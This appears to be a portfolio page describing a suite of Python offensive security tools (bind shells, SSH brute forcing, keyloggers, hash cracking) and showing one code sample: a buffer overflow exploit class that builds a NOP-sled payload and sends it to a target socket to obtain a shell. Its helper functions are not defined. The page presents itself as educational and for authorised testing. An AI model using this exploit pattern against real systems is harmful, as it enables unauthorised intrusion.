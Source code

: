 ```yaml
---
layout: page
title: "Offensive Security Tools & PoCs in Python"
tech: ["Python", "Security Tools", "Red Team", "Exploit Development", "Automation"]
excerpt: "Developed comprehensive suite of offensive security tools and proof-of-concepts including buffer overflows, bind shells, SSH brute forcing, keyloggers, and hash cracking utilities."
featured: true
---
```


# Offensive Security Tools & PoCs in Python

A comprehensive collection of offensive security tools and proof-of-concept (PoC) exploits developed in Python for educational and authorized penetration testing purposes.

## Project Overview

This project encompasses the development of various offensive security tools designed to assist in penetration testing, red team operations, and security research. All tools are developed with a focus on educational value and authorized security testing scenarios.

**Repository**: [GitHub - Offensive Security Tools](https://github.com/GauravSingh-CyberSecurity/offensive-security-tools)

## Tool Categories

### 🔓 Exploitation Tools

#### Buffer Overflow Exploits
```python
class BufferOverflowExploit:
    def __init__(self, target_binary, offset, return_address):
        self.target = target_binary
        self.offset = offset
        self.ret_addr = return_address
        self.shellcode = self.generate_shellcode()
    
    def generate_payload(self):
        """Generate buffer overflow payload with NOP sled and shellcode"""
        nop_sled = b"\x90" * 16
        overflow = b"A" * self.offset
        ret_addr = struct.pack("<I", self.ret_addr)
        payload = overflow + ret_addr + nop_sled + self.shellcode
        return payload
    
    def exploit(self, target_ip, target_port):
        """Execute buffer overflow attack against target service"""
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((target_ip, target_port))
            sock.send(self.generate_payload())
            return self.establish_shell_connection()
        except Exception as e:
            logging.error(f"Exploitation failed: {e}")
            return False
```
